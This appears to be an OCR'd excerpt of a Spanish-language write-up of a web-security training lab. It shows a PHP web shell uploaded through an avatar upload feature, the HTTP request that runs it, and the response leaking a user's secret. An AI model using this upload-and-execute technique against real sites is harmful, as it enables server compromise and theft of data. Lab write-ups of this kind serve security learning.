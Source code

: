 ```python
The file avatars/paimonshell.php has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>







TRATAMOS DE MANDAR UNA REQUEST POR GET A LA RUTA DONDE SE  GUARDO NUESTRO ARCHIVO DEL SCRIPT DEL SHELM A VER SI FUNCIONO Y NOS TRAE LOS DATOS :




REQUEST Y BINGO SE TENZO:


GET /files/avatars/paimonshell.php HTTP/2
Host: 0a4c004903c9c60e832419d800720000.web-security-academy.net
Cookie: session=TDHOCx352ucb2wa4lawaMkiWaSeAboyQ
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Referer: https://0a4c004903c9c60e832419d800720000.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: es-419,es;q=0.9,en;q=0.8







RESPONSE TENEMOS EL SECRETO DEL POBRE CARLITOS:



HTTP/2 200 OK
Date: Mon, 29 Jan 2024 01:40:21 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 32

YBQ70dhaYr1Y7W1IRLHLdgmfJ4sa0NoA
```

